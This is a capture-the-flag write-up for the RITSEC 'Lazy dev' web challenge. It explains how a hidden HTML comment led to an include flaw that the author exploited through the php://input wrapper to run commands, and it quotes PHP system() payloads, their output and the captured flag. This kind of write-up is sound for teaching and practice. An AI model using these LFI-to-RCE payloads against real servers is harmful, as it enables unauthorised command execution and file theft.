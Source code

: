 ## Lazy dev - Web challenge (400 points)

The final web challenge with a link: http://fun.ritsec.club:8007. Hmm it takes us back to *The tangled web* challenge.
At first, I was thinking that it was a mistake, but after reviewing all pages I crawled, I saw a comment which lead us further.
Comment was found in http://fun.ritsec.club:8007/Stars.html and it goes like this: 

```
<!-- REMOVE THIS NOTE LATER -->
<!-- Getting remote access is so much work. Just do fancy things on devsrule.php --> 
```
So I went to http://fun.ritsec.club:8007/devsrule.php and I am welcomed with:
```
Not what you input eh?
This param is 'magic' man.
```
Well, it is said that the parameter is *magic*. 

I started poking around and after a while I finally figured out that it is LFI to RCE ! 
We have to use **php://input** wrapper !

I intercepted the GET request with Burp Suite and changed to *_POST /devsrule.php?magic=php://input HTTP/1.1_* .
Next thing was to add POST data so I ran ```<?php system('id'); ?>``` and I got this response: 
**Not what you input eh?<br>This param is 'magic' man.<br><br>uid=33(www-data) gid=33(www-data) groups=33(www-data)**
Next step was to find the flag. With simple poking around we found our flag in *_/home/joker/flag.txt_*

To read flag we execute ```<?php system('cat /home/joker/flag.txt'); ?>``` and we got flag in response!

Flag is: **RITSEC{WOW_THAT_WAS_A_PAIN_IN_THE_INPUT}**

